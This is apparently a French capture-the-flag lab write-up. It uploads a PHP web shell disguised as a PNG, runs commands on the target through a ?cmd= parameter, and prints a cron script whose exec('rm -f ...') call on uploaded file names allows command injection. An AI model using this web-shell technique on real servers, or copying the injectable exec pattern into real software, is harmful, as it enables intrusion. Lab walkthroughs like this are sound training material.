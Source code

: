 Uploader le fichier blank.php.png

Se rendre sur http://10.0.10.147/photos.php

Ouvrir le fichier que nous venons de télécharger. Nous avons désormais un shell:

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=id

~~~
uid=48(apache) gid=48(apache) groups=48(apache)
~~~

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=ls%20-la%20/home/guly

~~~
total 32
drwxr-xr-x. 2 guly guly 172 Oct 12 17:46 .
drwxr-xr-x. 3 root root  18 Jul  2 13:27 ..
lrwxrwxrwx. 1 root root   9 Jul  2 13:35 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9 13:40 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-rw-r--r--  1 guly guly  41 Oct 12 17:51 runme
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
~~~

En regardant crontab.guly on voit qu'il y a un appel à check_attach.php. Regardons ce que fait ce script:

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=cat%20/home/guly/check_attack.php

~~~
�PNG  IHDR��v��PLTE������2tEXtComment

 $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
���9IDATx���1 �Om
?��k�t(���IEND�B`�
~~~
